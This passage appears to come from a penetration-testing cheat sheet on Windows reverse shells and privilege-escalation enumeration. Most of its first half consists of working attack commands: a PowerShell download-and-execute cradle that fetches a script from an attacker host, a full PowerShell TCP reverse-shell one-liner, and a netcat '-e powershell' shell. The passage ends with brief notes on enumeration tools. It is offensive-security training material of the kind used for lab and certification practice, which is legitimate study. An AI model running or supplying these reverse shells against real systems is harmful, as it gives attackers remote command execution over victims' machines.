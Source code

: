 - Now open up a netcat listener on Kali, `nc -nlvp 4444`
- And Execute the remote powershell script hosted on your Kali SimpleHTTPServer
  `CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1'))"`

### Upgrade Windows Command Line with a Powershell One-liner Reverse Shell

You can run this oneliner from the remote Windows command prompt to skip the file upload step entirely (again be sure to update the IP and port):

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"10.10.10.10\",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```

### Netcat Reverseshell Oneliners for Windows

Sometimes it is helpful to create a new Netcat session from an existed limited shell, webshell or unstable (short lived) remote shell. If you have transfered the shell to victim box, execute:
  `nc.exe 10.10.14.23 9001 -e powershell`

# Windows Enumeration

_NOTE_ There are many executables that could provide privledge escalation if they are being run by a privledged user, most can be found on the incredible LOLBAS project: <https://lolbas-project.github.io/>

## Automated Windows Enumeration Scripts

We are also going to look a a few automated methods of performing Windows Enumeration including:

- WindownPrivEsc.exe
- Sherlock
- Watson
- JAWZ
- Seatbelt

### Running Windows Privesc Check (windows-privesc-check)

The Windows Privesc Check is a very powerful tool for finding common misconfigurations in a Windows system that could lead to privledge escalation. It has not been updated for a while, but it is still as effective today as it was 5 years ago. The downside of this script is that it was written in Python and if the target system does not have Python installed, you will need to use an executable version that has a Python interpreter built in. Having to include Python in the package makes the executable version is pretty large, coming in at a whopping 7.14 MB!!
